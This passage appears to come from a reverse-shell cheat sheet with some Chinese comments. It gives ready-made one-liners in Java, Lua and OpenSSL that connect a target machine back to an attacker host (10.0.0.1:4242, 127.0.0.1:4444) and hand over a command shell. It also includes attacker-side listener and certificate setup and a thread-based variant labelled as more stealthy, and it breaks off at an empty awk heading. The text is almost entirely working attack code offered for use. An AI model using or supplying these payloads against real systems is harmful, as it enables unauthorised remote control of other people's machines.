 - **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

### lua

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### openssl

Attacker:
```bash
# 生成密钥
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# 启动监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

# 在目标机器上回弹
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

### awk
